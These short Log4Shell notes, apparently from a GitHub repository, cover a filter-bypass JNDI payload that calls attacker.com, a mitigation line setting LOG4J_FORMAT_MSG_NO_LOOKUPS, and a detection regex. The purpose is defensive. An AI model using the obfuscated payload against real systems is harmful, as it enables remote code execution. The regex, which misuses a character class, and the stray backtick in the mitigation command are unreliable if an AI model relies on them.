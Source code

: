# Log4Shell notes

If you're filtering on "ldap", "jndi", or the ${lower:x} method, I have bad news for you:
```shell
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attacker.com/a}
```
This gets past every filter I've found so far. There's no shortage of these bypasses.

Block the log4j zero day...
```shell
echo "export LOG4J_FORMAT_MSG_NO_LOOKUPS=true" >> /etc/profile.d/blockzero.sh`
```
I know that using regex is dumb and shit, but it's just first-line defense. This one I made is capable to detect obfuscated payloads and should produce very few false positives:
```shell
\${(\${(.*?:|.*?:.*?:-)('|"|`)*(?1)}*|[jndi:(ldap|rm)]('|"|`)*}*){9,10}
```
